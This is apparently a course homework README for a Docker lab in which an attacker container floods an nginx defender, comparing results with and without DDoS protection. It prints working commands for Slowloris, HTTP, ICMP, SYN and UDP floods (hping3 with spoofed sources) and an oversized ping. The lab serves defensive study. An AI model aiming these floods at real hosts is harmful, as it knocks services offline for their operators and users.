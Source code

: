 # Homework #16 for Highload:Projector

### Fuck the Hack :)

Setup two docker containers:
- attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)
- Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection


## Installation

```
git clone https://github.com/god-of-north/highload-homework-16.git
cd highload-homework-16
docker-compose build
```


## Attacker Tools

Enter to the ```attacker``` container to run attacker tools 
```
docker-compose run attacker bash
```

**Tools:**
- http-flood.sh - *HTTP Flood*
- icmp-flood.sh - *ICMP Flood*
- ping-of-death.sh - *Ping of Daeth*
- set-backend.sh - *Setting target as __unprotected__ NGINX server*
- set-defender.sh - *Setting target as __protected__ NGINX server*
- slowloris.sh - *Slowloris*
- syn-flood.sh - *SYN Flood*
- udp-flood.sh - *UDP Flood*


## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

Attack on NGINX server with DDoS protection **enabled**:
```
initializing:        0
pending:             0
connected:           571
error:               0
closed:              1429
service available:   YES
```

Attack on NGINX server with DDoS protection **disabled**:
```
initializing:        0
pending:             0
connected:           1029
error:               0
closed:              971
service available:   NO
```

```
curl -XGET http://localhost:5050
curl: (52) Empty reply from server
```

### HTTP Flood
```
siege -b -c 250 -t 3m ${TARGET_URL}
```

Attack on NGINX server with DDoS protection **enabled**:
```
{       "transactions":                         6656,
        "availability":                        80.05,
        "elapsed_time":                       179.78,
        "data_transferred":                   163.25,
        "response_time":                        0.36,
        "transaction_rate":                    37.02,
        "throughput":                           0.91,
        "concurrency":                         13.16,
        "successful_transactions":              6656,
        "failed_transactions":                  1659,
        "longest_transaction":                  2.91,
        "shortest_transaction":                 0.00
}
```

Attack on NGINX server with DDoS protection **disabled**:
```
{       "transactions":                       101967,
        "availability":                        99.59,
        "elapsed_time":                       179.61,
        "data_transferred":                  2914.89,
        "response_time":                        0.29,
        "transaction_rate":                   567.71,
        "throughput":                          16.23,
        "concurrency":                        161.81,
        "successful_transactions":            101988,
        "failed_transactions":                   420,
        "longest_transaction":                 16.18,
        "shortest_transaction":                 0.00
}
```

**Comparision**

Network Usage

![Network Usage](./images/f07ccd966a12e9acfbbbd88eea3e2c56fce9810f4036e88a0dd3714f32d0ab8c.png)  

Network Packets

![Network Packets](./images/9bf49e69f73d831c1c0ddc93b4972867a42235dfe4d1d1bc4956c2daf63fbec7.png)  

Load

![Load](./images/f264978022624d9a3c74a868ba30f615dce74e940fdfc2379c09b549d48226d0.png)  

CPU

![CPU](./images/a39d5bf775598e9aefa2a589afb226c1de348bbb9e261b4431f28aee219dc1b9.png)  

Disk I/O

![Disk I/O](./images/a12e454a11a4b05c5eb1026fa55ab0e9463b58a905d828b660971928ec6fbe11.png)  

Nginx Connections

![Nginx Connections](./images/391565fd7386c8cd0f2c935a0470ebd39f230a74736d70fb7546dc90f5c4b448.png)  



### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
